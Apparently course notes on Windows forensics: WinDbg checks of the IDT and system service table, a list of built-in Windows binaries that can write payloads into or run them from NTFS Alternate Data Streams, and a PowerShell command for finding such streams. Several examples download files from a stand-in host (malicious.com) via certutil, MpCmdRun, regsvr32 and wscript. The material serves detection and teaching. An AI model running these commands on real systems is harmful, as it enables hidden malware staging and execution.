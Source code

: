 CDAH 25-080 M19L2

4. Run the following command to view the IDT routine pointer value:
!idt 2e

6. Run the following command to check for any code alterations to system functions:
!chkimg -d nt

 4. Run the following command to print out values from the SSD
    choose the first one
    
dd /c1 KiServiceTable L2



7. Run the following command to find the absolute routine address of the NtCreateFile kernel routine that is called with the 0x55 syscall: 
u kiservicetable + (00febd07>>>4) L1

certutil.exe


Although typically used for handling certificates in Windows systems, the certutil tool may be employed by threat actors to download malicious files directly into an ADS. 


An example of a command using this tool is as follows:
certutil.exe -urlcache -split -f https://www.malicious.com/evilscript.ps1 c:\tempfile.doc:evil



cmd.exe


As the default command-line interpreter for Windows, cmd.exe possesses inline utilities, such as echo, that enable writing to an ADS. When combined with a tool for downloading files, this can be used for malicious executable hiding. In the example below, regsvr32.exe is used to download a malicious file and stores it in an ADS called evil.bat within tempfile.doc:  
cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:www.malicious.com/RegSvr32.sct ^scrobj.dll > C:\tempfile.doc:evil.bat



control.exe


Although control.exe is normally used to launch Control Panel items, it may also be used to execute a malicious Dynamic Link Library (DLL) hiding in an ADS. 


An example of a command using this tool is as follows:
control.exe c:\tempfile.txt:evil.dll



cscript.exe


cscript.exe is the command-line version of the Windows Script Interpreter that may be used to execute Visual Basic (VB) scripts stored in an ADS.


An example of a command using this tool is as follows:
cscript c:\tempfile.txt:evil.vbs



esentutl.exe


Designed for running tasks and operations related to databases and database files, this executable can abuse the NTFS file attribute ADS. Using different techniques, threat actors can hide files in these streams to accomplish different goals, such as tool infiltration and data exfiltration.


An example of a command using this tool is as follows:
esentutl.exe /y C:\evil.exe /d c:\tempfile.txt:evil.exe /o



However, when a malicious executable hiding in an ADS is identified, it may also be used to carve out the executable for further analysis with the following command syntax:
esentutl.exe /y C:\tempfile.txt:evil.exe /d c:\evil.exe /o



extrac32.exe	


This tool is built into Windows to extract Cabinet (CAB) files. If an attacker can compress a payload into this format, then extrac32.exe may be used to extract it and hide it in an ADS in one step.


An example of a command using this tool is as follows:
extrac32 C:\evil.cab c:\tempfile.txt:evil.exe



findstr.exe	


findstr is normally used to locate string patterns in files or filenames on a system, but part of its functionality may be abused by attackers to hide malware in an ADS by intentionally searching the malicious file for a string that does not exist and writing the portion of the file in which the string is not found (i.e., all of it) to the target ADS location. The /V flag prints only lines where the string is not present, and the /L flag interprets the string literally, as opposed to a regular expression.


An example of a command using this tool is as follows:
findstr /V /L DOESNOTEXIST c:\evil.exe > c:\tempfile.txt:evil.exe



forfiles.exe


This utility is normally used to perform batch processing of a command on a file or set of files, but it may be repurposed by an attacker to execute a binary from an ADS as long as the file being searched for is valid.


An example of a command using this tool is as follows:
forfiles /p c:\windows\system32 /m notepad.exe /c "c:\tempfile.txt:evil.exe"



MpCmdRun.exe	


This utility is normally employed as a command-line administration tool for Windows Defender, but it may be employed to download files directly into an ADS.


An example of a command using this tool is as follows:
MpCmdRun.exe -DownloadFile -url https://www.malicious.com/evil.exe -path c:\\tempfile.txt:evil.exe



mshta.exe	


This utility is built into Windows to execute Hypertext Markup Language (HTML) code and is frequently used by attackers to trigger malicious HTML Application (HTA) payloads, which may contain embedded JavaScript (JS), JScript, or Visual Basic Script (VBScript).


An example of a command using this tool is as follows:
mshta.exe "C:\tempfile.txt:evil.hta"



powershell.exe


Using the Set-Content cmdlet, data may be written directly to an ADS with the PowerShell terminal. In the following command, Set-Content is used to create an ADS called evil.ps1 within the tempfile.txt file and adds the contents of the -Value flag to that ADS.


An example of a command using this tool is as follows:
Set-Content -Path "C:\tempfile.txt" -Stream evil.ps1 -Value "Script Contents Here"



print.exe	


Although normally this binary is used by Windows to send files to a printer, it can be repurposed to hide files in an ADS. The /D flag is normally used to identify the printer to which a file is sent.


An example of a command using this tool is as follows:
print /D:C:\tempfile.txt:evil.exe C:\evil.exe



rundll32.exe	


This binary is used to execute DLL files for a variety of purposes during normal system operations. An attacker who has stored a malicious DLL in an ADS may also execute it with this utility.


An example of a command using this tool is as follows:
rundll32 "C:\tempfile.txt:evil.dll",DllMain



sc.exe	


If a Windows service-compatible executable is stored in an ADS and the user has the permissions to create new services, sc.exe may use the target in an ADS as the target for the service by entering the following commands:
sc create evilservice binPath="\"c:\\tempfile.txt:evil.exe\"" DisplayName= "evilservice" start= auto 


sc start evilservice



wmic.exe	


Used for a variety of management tasks by Windows administrators, wmic.exe may also be used by attackers to execute malicious binaries in an ADS with the following syntax:

wmic.exe process call create "c:\ads\file.txt:program.exe"



wscript.exe


This is the User Interface (UI) version of the Windows Script Interpreter that may be used to execute VB scripts stored in an ADS. Despite being considered the UI version, it can still be run from the command line without opening a window that would alert a user. Syntax within the script may also be used to download files into an ADS, which is why it is ideal for multi-staged payloads that hide in an ADS. Files are downloaded with the following script syntax:
echo GetObject("script:https://www.malicious.com/evil.vbs") > C:\tempfile.txt:evil.vbs


wscript c:\tempfile.txt:evil.vbs




4. Run the following command to list all file streams that are not the default $DATA stream:
Get-ChildItem -Recurse | % { Get-Item $_.FullName -Stream * } | Where Stream -ne ':$Data'
![image](https://github.com/user-attachments/assets/03cba1bd-8d84-498b-8d3f-6d740352af56)


